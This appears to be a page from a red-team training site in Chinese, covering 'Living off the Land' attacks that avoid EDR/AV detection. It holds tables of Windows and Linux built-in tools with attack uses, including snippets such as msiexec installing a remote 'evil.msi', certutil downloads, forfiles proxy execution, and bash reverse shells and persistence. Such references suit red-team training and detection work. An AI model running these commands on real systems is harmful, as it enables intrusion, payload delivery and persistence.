

repository: lupingQAQ/red-team-skill-tree · page: zh-CN/ch-23/index.html · generator: mkdocs

# 23. Living off the Land (LotL) 攻击链

> 利用目标系统自带工具完成攻击，无需投放额外二进制文件，极大规避EDR/AV检测。

## 23.1 Windows LotL工具链

| 工具 | 用途 |
|------|------|
| PowerShell | 下载执行/信息收集/凭证操作(已过时?用C# AMSI Bypass替代) |
| WMI | 远程命令执行/信息收集/持久化 |
| certutil | 远程下载(`certutil -urlcache -split -f`) |
| mshta | 执行HTA/JavaScript |
| msiexec | 安装远程MSI(`msiexec /q /i http://xxx/evil.msi`) |
| msbuild | 执行内联C#(`msbuild.exe xxx.csproj`) |
| csc.exe | 本地编译C#(不依赖Visual Studio) |
| rundll32 | 加载DLL/执行JavaScript |
| forfiles | 代理执行(`forfiles /p c:\ /m notepad.exe /c "cmd /c evil"`) |
| psexec | 远程执行(Sysinternals) |
| schtasks | 计划任务持久化 |
| reg | 注册表操作/持久化 |
| wmic | 远程WMI命令执行 |
| bitsadmin | 后台下载 |
| installutil | .NET应用安装→执行代码 |

## 23.2 Linux LotL工具链

| 工具 | 用途 |
|------|------|
| curl/wget | 下载payload |
| bash -i | 反弹shell |
| python/perl/ruby | 一行执行器 |
| awk | 命令执行(`awk 'BEGIN{system("id")}'`) |
| find | 命令执行(`find / -exec cmd \;`) |
| xxd/base64 | 编解码 |
| ssh -R/-L | 隧道/端口转发 |
| crontab | 持久化 |
| systemctl | 服务创建/持久化 |

---
